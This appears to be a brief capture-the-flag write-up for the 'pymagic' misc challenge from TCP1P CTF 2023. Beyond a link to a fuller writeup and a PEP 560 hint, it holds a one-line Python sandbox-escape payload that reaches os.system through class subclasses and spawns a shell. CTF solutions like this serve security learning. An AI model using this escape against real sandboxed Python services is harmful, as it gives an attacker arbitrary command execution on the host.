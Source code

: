 # pymagic

Do you believe in PEP's magic?

## Solution

https://github.com/TCP1P/TCP1P-CTF-2023-Challenges/tree/main/Misc/PyMagic/writeup

PEP560?

```py
_.__class__.__subclasses__(_.__base__)[140].__init__.__globals__['system']('sh')
```
